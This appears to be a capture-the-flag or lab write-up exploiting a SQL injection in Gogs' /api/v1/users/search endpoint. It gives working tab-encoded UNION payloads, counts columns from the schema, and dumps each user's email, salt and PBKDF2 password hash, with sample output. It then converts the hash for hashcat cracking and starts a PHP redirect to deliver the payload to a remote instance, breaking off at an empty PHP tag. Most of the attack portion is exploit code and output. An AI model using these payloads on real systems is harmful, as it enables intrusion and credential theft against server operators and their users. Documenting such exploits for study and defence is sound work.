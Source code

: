 Instead of using the payload in POC going to try to do a simple union injection on the endpoint.
```http
http://localhost:3000/api/v1/users/search?q=%27)%20union%20select%201--%20-
```
This errors out?

The POC seems to swap the spaces for tabs (%09)
```http
/api/v1/users/search?q=')%09union%09select%091--%09- 
```
Which responds with
```json
"error": "SELECTs to the left and right of UNION do not have the same number of result columns",
"ok": false
```
Which means the injection works! :)

As we have the source code we can just see how many columns we need.
```bash
sqlite3 gogs/data/gogs.db  .schema user | grep 'CREATE TABLE `user`' | sed  's/,/\n/g' | wc -l
```
which gives 27
This returns but doesnt show any users.
changing the injection to be:
```sql
')%09union%09all%09select%091,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--%09-
```
Shows that 3 is the injectable column, now to exfil data. From the database we need email, passwd and salt. This can be done with concat.
```sql
')%09union%09all%09select%091,2,(select%09email%09from%09user)||':'||(select%09salt%09from%09user)||':'||(select%09passwd%09from%09user),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--%09-
```
Which returns
```
server@a.com:2mQB3qmtJb:5beefe2e36f32d4d72ca9c916d51e2f8ee16468f942cf90f3c4723154312168f7716b248a3c4fed0783754cf5af3e03f6360
```
Checking the source code for how the passwd is hashed. (models/user.go). Its a PBKDF2 with 10000 iterations hashed with sha256. 

Checking hashcat shows that it is mode 10900 `PBKDF2-HMAC-SHA256`
```
sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt
```
Convert the hash to base64 and testing if it works. We need to decode from hex first.
```
echo 5beefe2e36f32d4d72ca9c916d51e2f8ee16468f942cf90f3c4723154312168f7716b248a3c4fed0783754cf5af3e03f6360 -n | xxd -p -r | base64 -w0
```
Then hashcat
```bash
sha256:10000:Mm1RQjNxbXRKYgo=:W+7+LjbzLU1yypyRbVHi+O4WRo+ULPkPPEcjFUMSFo93FrJIo8T+0Hg3VM9a8+A/Y2A=
```
Now to send it to the server
### Remote instance
With the working payload:
```
/api/v1/users/search?q=')%09union%09all%09select%091,2,(select%09email%09from%09user)||':'||(select%09salt%09from%09user)||':'||(select%09passwd%09from%09user),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--%09-
```
We can append it to the location header in index.php
```php
<?php
```